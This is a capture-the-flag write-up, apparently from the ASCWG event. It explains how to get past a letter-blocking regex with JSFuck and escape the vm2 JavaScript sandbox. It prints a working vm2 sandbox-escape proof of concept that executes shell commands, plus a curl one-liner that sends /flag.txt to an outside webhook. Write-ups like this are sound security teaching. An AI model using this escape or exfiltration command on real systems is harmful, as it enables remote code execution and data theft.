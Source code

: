 As you can see in the code, our inputs are being passed to `vm.run(eqn);` without any filtering, except for a regex check `eqn.match(/[a-zA-Z]/)` that looks for alphabetic characters from a-zA-Z. So, how can we exploit this? The first thing I did was search for a way to bypass the regex check, since without bypassing this, the exploit will not work, right?”

After extensive searching and trying different methods, I found that we can bypass the filter using JSFuck.

JSFuck-encoded code is valid JavaScript, though highly obfuscated. When the `vm.run(eqn)` function is called, `vm2` parses and executes this obfuscated code just like it would with any other JavaScript code.

![https://cdn-images-1.medium.com/max/800/1*L2f0pSYrnttGw4j-32TVpQ.png](https://cdn-images-1.medium.com/max/800/1*L2f0pSYrnttGw4j-32TVpQ.png)

Now we need to look for any available exploits for vm2, and I found this repository: [https://github.com/rvizx/VM2-Exploit](https://github.com/rvizx/VM2-Exploit). While this is exactly what we need, it doesn’t use JSFuck encoding. Therefore, we will need to copy the payload ourselves and edit it using [https://jsfuck.com/](https://jsfuck.com/) Here, we can find the code we need: [https://gist.github.com/leesh3288/f693061e6523c97274ad5298eb2c74e9](https://gist.github.com/leesh3288/f693061e6523c97274ad5298eb2c74e9)

```
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('OUR PAYLOAD'); }
            )
        }
    }
};
p.then();
```

Now all we need to do is read the flag located at `/flag.txt`. I tried to get a reverse shell but it didn’t work, so I used a `curl` command to send the flag to our webhook

```
cat /flag.txt | curl -X POST -d @- https://webhook.site/8a47e6ce-1e7d-440e-a513-7fcd4cfc68f1
```

![https://cdn-images-1.medium.com/max/800/1*QQKGVm1dWeikpkbwEBsCjA.png](https://cdn-images-1.medium.com/max/800/1*QQKGVm1dWeikpkbwEBsCjA.png)

![https://cdn-images-1.medium.com/max/800/1*WD-fiyxvw91jRAVo4UnO5g.png](https://cdn-images-1.medium.com/max/800/1*WD-fiyxvw91jRAVo4UnO5g.png)

FLAG: ASCWG{C0c0_WAwaaaa}
